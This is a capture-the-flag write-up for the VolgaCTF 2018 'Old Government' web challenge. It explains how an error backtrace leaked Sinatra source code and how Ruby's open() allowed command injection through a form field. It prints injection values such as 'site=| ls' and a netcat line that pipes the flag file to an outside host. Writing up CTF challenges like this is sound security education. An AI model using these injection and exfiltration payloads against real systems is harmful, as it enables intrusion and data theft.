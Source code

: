 ```yaml
---
layout: post
title: volgactf 2018 - Old Government
author:
  name: onionpsy
  github: onionpsy
---
```


We started by checking the link on the header and we saw that an `id` is passed in the url with the id of the page: `page?id=36`. After some tries we found that we could crash the application by passing id as an array, like that : `page?id[]=36`.

```ruby
NoMethodError at /page
undefined method `to_i' for ["36"]:Array Did you mean? to_s to_a to_h
```

It gave us info that the website is powered by Sinatra, a ruby web framework.

On the backtrace, we could see part of the code.

### articles.erb
```ruby
            case @id.to_i

    when 2
      erb :page2
    when 5
      erb :page5
    when 18
      erb :page18
    when 23
```

### app.rb
```ruby

        headers "Server" => ""
      	erb :index
      end

      get '/page' do
      	@id = params[:id]
        headers "Server" => ""

      	erb :articles

      end

      post '/page' do
      	@id = params[:id]
        headers "Server" => ""
      	erb :articles
      end
```

After a few tries on the pages, we found that the page with the id 18 has a form with 2 fields. One is waiting a valid url (`site`) and the other is an optional description (`description`). We used once again the `page?id[]=36` trick but through the POST this time. This gave us more informations about the code. The most interesting one is this function:

```ruby
  def siteValidator(site)
    begin
  	  r = open(site, :allow_redirections => :all)
	(...)
```

Judging by the name it seems that this one is ran on the site field of the post query. Judging by (OWASP - Ruby on Rails Cheatsheet)[https://www.owasp.org/index.php/Ruby_on_Rails_Cheatsheet], `open` can be actually used to inject command.
After some tries we can see that it works:
 * `site=| ls` show `validated`
 * `site=| aaaa` show `error`

But because we don't have any sort of output, we decided to create a reverse shell using netcat (present on the server) using this syntax: `site=| <command> | netcat <ip> <port>`

After some directory listing, we saw the flag file:
`site=| cat ../../flag | netcat <ip> <port>`

Done!
